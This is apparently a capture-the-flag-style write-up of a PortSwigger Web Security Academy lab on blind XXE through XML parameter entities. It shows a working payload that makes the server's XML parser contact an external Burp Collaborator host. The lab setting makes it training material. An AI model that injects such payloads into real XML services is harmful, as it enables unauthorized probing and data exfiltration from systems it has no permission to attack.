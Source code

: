 
# 7 - Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---------------------------------------------

Reference: https://portswigger.net/web-security/xxe/blind

---------------------------------------------

Generated link: https://0a8300cf04a26be4802b0864005700e8.web-security-academy.net/

Original request:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

We want to add something like this example from the reference:

``` 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://COLLABORATOR_URL"> %xxe; ]>
```

We will test the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://q6x580qbz3i8x9wutkq9i4bg97fy3ord.oastify.com"> %xxe; ]>		
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```



![img](images/7%20-%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/1.png)


We get requests in Burp Collaborator:



![img](images/7%20-%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/2.png)